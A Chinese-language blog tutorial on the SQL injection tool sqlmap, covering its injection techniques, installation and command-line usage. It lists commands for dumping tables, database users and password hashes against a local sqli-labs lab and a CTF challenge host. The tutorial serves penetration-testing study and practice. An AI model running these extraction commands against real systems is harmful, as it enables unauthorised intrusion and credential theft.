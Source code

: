 ```yaml
---
title: 渗透测试工具之sqlmap
date: 2020-06-28 21:54:31
tags:
    - 渗透测试
---
```


# 简介
sqlmap是一个工具，一个用来做sql注入攻击的工具。SQLmap是一款用来检测与利用SQL注入漏洞的免费开源工具，有一个非常棒的特性，即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）。Sqlmap内置很多绕过插件，支持的数据库是MySQL、Oracle、postgreSQL、MicrosftSQL server、IBM DB2等

<!--more-->

SQLMap采用以下五种独特的SQL注入技术:

>1、基于布尔值的盲注，即根据返回页面判断条件真假的注入
2、基于时间的盲注，既不能根据页面返回的内容判断任何信息，要利用条件语句查看时间延迟语句是否已经执行来判断
3、基于报错注入，及页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
4、联合查询注入，在可以使用union的情况下的注
5、堆查询注入，可以同时执行多条语句时注入

SQLMap的强大功能包括数据库指纹识别，数据库枚举，数据库提取，访问目标文件夹系统，并在获取完全的操作权限时实行任意指令命令，SQLMap的功能十分强大，当其他注入工具不能利用SQL注入漏洞时，使用SQLMap会有意向不到的结果

SQL注入请参考：
[什么是SQL注入漏洞](http://www.codesecurity.cn/2020/06/25/%E4%BB%80%E4%B9%88%E6%98%AFSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)


# 安装
官方网站下载
http://sqlmap.org/
或者github下载：
https://github.com/sqlmapproject/sqlmap

>wget ```https://codeload.github.com/sqlmapproject/sqlmap/legacy.tar.gz/master``` //下载sqlmap
tar zxvf master  //解压压缩包
cd sqlmapproject-sqlmap-310d79b/   //进入解压目录
python sqlmap.py -h  //开始使用


# 用法
执行sqlmap.py -h可以查看用法。

![sqlmap](sqlmap.png)

## GET注入
>sqlmap.py -u "url" 检测存在不存在注入
sqlmap.py -u "url" --tables    列出数据库的表
sqlmap.py -u "url" --columns -T admin    列出admin的内容
sqlmap.py -u "url" --dump -T admin "useradmin,password"    列出useradmin password的内容


## POST注入
>sqlmap.py -u ```www.xxx.com/index.php``` --data "user=1&pass=1" --dbs 指定post参数注入出数据库
sqlmap.py -u ```www.xxx.com/index.php``` --forms    sqlmap自动查找网页上的表单，并注入
sqlmap.py -r 1.txt -p user 用burp抓包，保存为1.txt 然后用-r参数注入，用-p参数来指定网页上的参数
sqlmap.py -r xxx.txt –dbs /*xxx.txt内容为HTTP请求*/
sqlmap.py -u "url" --user 列出数据库的所以用户
sqlmap.py -u "url" --passwords 列出数据库用户的密码
sqlmap.py -u "url" --current-db 查看当前使用网站数据库的名字
sqlmap.py -u "url" --current-user 查看当前网站数据库的用户名称
sqlmap.py -u "url" --is-dba 查看当前用户是否是管理员权限   True代表有，如果没有的话就是False


## 举例
1）检测目标网址是否存在注入
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1
```

2）获取数据库指定的字段内容
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -D security -T users -C id,password,username --dump
# -D 指定数据库 -T 数据库下的表名 -C 指定所需要的列 --dump获取所有信息
```


3）获取数据库中所有用户
该命令的作用是列出数据库的所有用户，在当前用户有权限读取包含所有用户的表的权限时，使用该命令就可以列出所有的管理用户
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 --users
```

4）获取数据库的密码
该命令的作用是列出数据库的用户的密码，如果当前用户有读取包含用户密码的权限，sqlmap会列出用户，然后列出hash，并尝试破解
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 --passwords
```

## CTF爆破flag
>```
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" --dbs   //爆库名
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag --table  //爆表名
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag -T fl4g --columns //爆字段
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag -T fl4g -C skctf_flag --dump
//爆数据
```

